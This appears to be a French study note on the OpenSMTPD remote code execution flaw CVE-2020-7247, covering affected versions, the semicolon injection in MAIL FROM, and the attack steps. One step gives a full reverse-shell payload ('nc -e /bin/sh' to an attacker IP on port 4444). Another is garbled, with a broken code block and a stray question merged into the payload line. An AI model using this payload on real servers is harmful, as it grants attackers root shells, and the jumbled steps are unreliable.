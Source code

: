 ***

{% hint style="warning" %}
<mark style="color:orange;">**Fiche Technique : Vulnérabilité OpenSMTPD (CVE-2020-7247)**</mark>

**1. Introduction**\
La vulnérabilité CVE-2020-7247 est une faille critique d'exécution de code à distance (RCE) dans OpenSMTPD jusqu'à la version 6.6.2. Cette vulnérabilité, exploitable depuis 2018, permet d'exécuter des commandes système sans authentification. OpenSMTPD est un service SMTP open source largement utilisé dans de nombreuses distributions Linux (Debian, Fedora, FreeBSD, etc.).

***

**2. Détails Techniques**

* **Nom de la vulnérabilité :** CVE-2020-7247
* **Type :** Exécution de code à distance (RCE)
* **Versions affectées :** OpenSMTPD jusqu'à la version 6.6.2
* **Gravité :** Critique
* **Mécanisme :**
  * La vulnérabilité repose sur une faille dans la fonction d'enregistrement de l'adresse e-mail de l'expéditeur.
  * L'exploitation est possible en injectant des commandes via le champ `MAIL FROM` en utilisant le caractère point-virgule (`;`).
  * Limite de 64 caractères pour l'injection de commandes.

**3. Processus de l'attaque**

1.  **Connexion initiale :**

    * Se connecter au service SMTP de la cible via Telnet ou un script automatisé.

    ```
    telnet [IP] 25
    ```
2.  **Composition du message :**

    * Créer un e-mail avec des champs `MAIL FROM` et `RCPT TO`.
    * Injecter une commande dans le champ `MAIL FROM`.

    ```
    Ma
    ```
3. **isc  etait quoi la failli qui epormettait d faire ca MAIL FROM:<; /bin/bash -c 'nc -e /bin/sh \[AttackerIP] 4444'>**
4. **Exécution de la commande :**
   * L'interprétation incorrecte du `;` permet l'exécution directe de la commande.

***

**4. Cycle d'Exécution du Code à Distance (RCE)**

1. **Source :** Entrée de l'utilisateur (manuelle ou automatisée) via Telnet ou script.
2. **Processus :** OpenSMTPD traite l'e-mail et l'analyse.
3. **Privilèges :** L'e-mail est traité par OpenSMTPD avec des privilèges élevés (root).
4. **Destination :** La commande injectée est exécutée sur le système distant.
{% endhint %}
